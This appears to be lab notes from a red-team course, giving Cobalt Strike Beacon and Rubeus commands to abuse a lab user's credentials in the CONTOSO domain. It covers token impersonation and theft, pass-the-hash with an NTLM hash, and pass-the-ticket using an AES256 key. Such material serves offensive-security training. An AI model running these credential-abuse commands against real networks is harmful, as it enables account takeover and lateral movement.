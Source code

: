 ### Token Impersonation

## Make Token

1.  From the medium-integrity Beacon, create and impersonate an access token for rsteel.
    
    1. make_token CONTOSO\rsteel Passw0rd!
2.  Drop the impersonation.
    
    1. rev2self

## Steal Token

1.  From the high-integrity Beacon, open the Process Browser.
    
    1. process_browser
2.  Select a process owned by rsteel.
    
3.  Steal the primary access token of that process and add it to the token store.
    
    1. Click **Steal Token**.
    2. Mask Type: TOKEN_ALL_ACCESS
    3. Store: true
4.  Impersonate that token.
    
    1. Run token-store use 0 from the Beacon console.
5.  Drop the impersonation.
    
    1. rev2self
6.  Remove the token from the store.
    
    1. token-store remove 0

# Pass the Hash

1.  From the high-integrity Beacon, perform a PtH attack for Robert Steel.
    
    1. pth CONTOSO\rsteel fc525c9683e8fe067095ba2ddc971889
2.  Drop the impersonation.
    
    1. rev2self

# Pass the Ticket

1.  Using their AES256 key, request a TGT for rsteel from the medium-integrity Beacon.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap`
    
```
```

2.  From the high-integrity Beacon, inject and impersonate the ticket.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]`
    
    1. steal_token [PID]
3.  Drop the impersonation.
    
    1. rev2self
    2. kill [PID]